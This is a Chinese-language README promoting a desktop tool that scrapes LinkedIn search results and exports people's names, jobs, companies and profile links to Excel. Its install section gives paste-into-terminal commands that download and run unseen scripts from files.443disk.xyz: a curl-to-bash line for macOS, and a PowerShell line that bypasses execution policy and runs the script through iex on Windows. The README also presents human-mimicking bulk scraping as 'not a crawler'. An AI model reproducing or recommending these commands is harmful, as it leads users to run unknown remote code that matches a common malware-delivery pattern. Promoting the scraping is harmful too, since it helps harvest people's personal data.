







# 领英工具
 跨平台领英人脉智能捕手

<!-- {docsify-ignore-all}  放在第一行 # 后， 会在侧边栏中忽略所有标题 -->
<!-- ## 界面预览 {docsify-ignore} 侧边栏中忽略该标题 -->


## 工具介绍 





**用技术重新定义社交拓客效率**

> 专为猎头、BD、创业者与职业发展者打造的高性能桌面端领英关键词搜索与导出工具——不止是“能用”，更是快、稳、跨平台、隐私优先的生产力利器！

**精准关键词搜索 + 智能过滤**
支持多字段组合搜索（姓名、职位、公司、地区、行业），兼容中英文混合输入，适配领英全球站点，助你从百万级结果中快速锁定高价值联系人。

**一键导出 Excel（.xlsx）**
自动结构化导出：姓名、职位、公司、地域、领英主页链接……支持自定义字段筛选，告别手动复制粘贴，10秒完成百人名单整理。

**隐私 & 安全第一**
本工具不依赖第三方 API，不收集用户数据，所有搜索与导出操作均在本地完成——你的数据，永远只属于你。


    💡 “这不是爬虫，是尊重规则的专业工具。”
    —— 专为高效、合规的领英主动拓客场景设计，助力你在人脉红海中精准破局。

📥 立即下载，让每一次搜索，都成为一次有价值的连接。

## 安装说明

<!-- tabs:start -->

### **macOS 平台**
> 打开终端粘贴如下命令

```bash
/bin/bash -c "$(curl -fsSL https://files.443disk.xyz/LinkedInApp.Desktop/install-osx.sh)" 
```

### **Windows 平台**
> 打开终端粘贴如下命令

```pwsh
powershell -ExecutionPolicy Bypass -Command "iex ([System.Text.Encoding]::UTF8.GetString((iwr -useb 'https://files.443disk.xyz/LinkedInApp.Desktop/install-win.ps1').Content))"

```

<!-- tabs:end -->

## 设置参数 

运行程序，切换参数配置。第一次运行时，程序会自动跳转到参数设置界面，如下图所示




- **搜索关键词**：填写待搜索的关键词，一行一个关键词，程序将按顺序依次进行搜索，搜索时自动跳过已经成功或是连续失败多次的关键词
- **最大翻页**：根据需要设置搜索时的最大翻页页码，一页大约十条数据
- **间隔**：程序依次搜索关键词，在每次翻页时关键词之间的间隔时间，程序根据这个时间值进行随机暂停以模拟人工操作
- **地区**：暂时不支持该功能
- **尝试次数**：程序在搜索关键词时如果发生错误，则将进行重试，如果达到指定的尝试次数后，该关键词将认为发生错误而不再搜索，将自动跳转处理下一个关键词
- **搜索级别**：暂时不支持该功能
- **代理地址**：如果使用领英工具的电脑中的浏览器可以直接访问领英网站，则该项留空，不需要填写。如果使用浏览器需要填写代理才能访问领英网站，在该选项中填写相应的代理地址。具体的代理地址，要查看代理工具中的设置，或是在购买的代理服务页面中查看。比如下图所示的混合端口或是 http 端口


点击“转到工作区”按钮，或是点击侧边栏中的“工作面板”切换到工作面板界面

## 工作面板


点击“开始采集”按钮，程序将自动打开一个浏览器跳转到领英首页，并等待用户进行登录。登录完成后，程序将自动开始搜索关键词。



在 mac 下第一次工作时，可能会弹出授权提示，请选择允许


等待采集工作完成，程序自动停止，也可以在工作过程中点击“停止采集” 按钮，程序将停止搜索，下次点击“开始采集”按钮，程序将继续搜索。


## 导出数据

点击 “导出采集数据” 按钮，在导出数据界面，选择导出的目录及文件名，点击“确定” 按钮，程序将开始导出数据。



等待保存完成提示


打开导出的 excel 文件，查看数据!




## 清空数据

采集过程中，程序将记录关键词的工作结果，再次工作时，成功或是失败的关键词将被跳过，如果需要重新采集，可以点击 “清空数据” 按钮，在下拉菜单中选择相应的选项，删除采集进度或数据结果。


- **清空失败采集进度**：只删除所有失败的采集进度，保留成功采集的进度及数据结果
- **清空采集进度**：清空所有的采集进度，保留成功采集数据结果
- **清空所有数据**：清空所有采集的进度及数据结果


## 采集演示


